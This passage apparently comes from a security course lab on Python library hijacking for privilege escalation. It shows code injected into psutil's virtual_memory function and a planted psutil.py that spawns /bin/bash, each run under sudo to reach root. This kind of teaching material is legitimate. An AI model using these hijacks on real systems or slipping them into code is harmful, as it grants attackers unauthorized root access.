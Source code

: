 ````
def virtual_memory():

	...SNIP...
	
    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
````
Module Contents - Hijacking
````
...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
````
Privilege Escalation
````
$ sudo /usr/bin/python3 ./mem_status.py
uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
Available memory: 79.22%
````

Another way is to check if we have write permission in the directory where the script is located. If we have write permission, simply create a Python file with the same name as the library to be imported. Once the script is executed, it will use the library file that is already in its directory, and thus the result will be the same.

````
$ ls -la .
total 36
drwxr-xr-x 3 student student 4096 Jun 14  2023 .
-rwSrwxr-x 1 root        root         192 May 19  2023 mem_status.py
````
In this case, we have write permission for the directory.
````
vi or nano psutil.py

#!/usr/bin/env python3

import os
def virtual_memory():
    os.system('/bin/bash')
````
````
$ ls -la .
total 36
drwxr-xr-x 3 student student 4096 Jun 14  2023 .
-rwSrwxr-x 1 root        root         192 May 19  2023 mem_status.py
````